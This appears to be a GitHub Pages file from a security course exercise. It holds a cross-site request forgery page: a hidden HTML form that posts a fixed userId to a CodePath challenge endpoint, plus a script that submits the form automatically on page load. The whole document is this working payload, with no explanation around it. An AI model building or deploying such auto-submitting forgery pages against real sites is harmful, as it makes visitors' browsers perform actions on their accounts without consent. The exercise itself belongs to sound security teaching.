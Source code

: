 # JLPlummer79.github.io


<form name="csrfform" action="http://security.codepath.com/user/csrfchallengtwo/plusplus/" method="POST">
  <input type="hidden" name="userId" value="2eff24c04dc96585b7fadc8b1fd6d80081c3ffdd"/>
  <input type="submit"/>
</form>

<script> document.csrfform.submit(); </script>
